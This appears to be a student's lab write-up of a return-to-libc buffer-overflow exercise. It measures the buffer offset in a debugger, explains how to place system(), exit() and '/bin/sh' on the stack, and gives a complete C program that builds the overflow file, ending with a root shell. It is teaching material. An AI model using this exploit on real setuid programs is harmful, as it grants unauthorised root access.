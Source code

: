 ### Step 1

1. Find out X, Y, Z in the buffer:

First we set breakpoint at `bof` function, run the program, and check the address of `$ebp` and `&buffer`:

<img src="/images/4-5-1.PNG" style="zoom:67%;" />

The distance between `$ebp` and `&buffer` is `0x36 = 54` bytes.

We consider the address change from the end of `bof()` to the call of `system()`. Assume the `$ebp` of `bof` is at address `n`, then `system()`, `exit()`, and the system() argument `/bin/sh` are at `n + 4`, `n + 8`, and `n + 12` respectively.

Explanation:

- Upon returning from `bof`, the program will jump to the next instruction at `n + 4`, which is the address of `system()`.
- `exit()` is called after `system()` returns, so it is at `n + 8`.
- The argument `/bin/sh` is passed to `system()`, so it is at `n + 12`.

2. Write the exploit program:

Since we know the address of `system()`, `exit()` and `MYSHELL`, we can write the exploit program:

```c
/* exploit.c */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
	char buf[250];
	FILE *badfile;

	badfile = fopen("./badfile", "w");

	*(long *) &buf[0x36 + 12] = 0xbffffddc; // "/bin/sh"
	*(long *) &buf[0x36 + 4] = 0xb7e42da0; // system()
    *(long *) &buf[0x36 + 8] = 0xb7e369d0; // exit()

	fwrite(buf, sizeof(buf), 1, badfile);
	fclose(badfile);
    return 0;
}
```

3. Perform the attack:

<img src="/images/4-5-2.PNG" style="zoom:67%;" />

Observation: The attack is successful, and we obtain a root shell. The user uid is 1000 (seed), the effective uid is 0 (root).
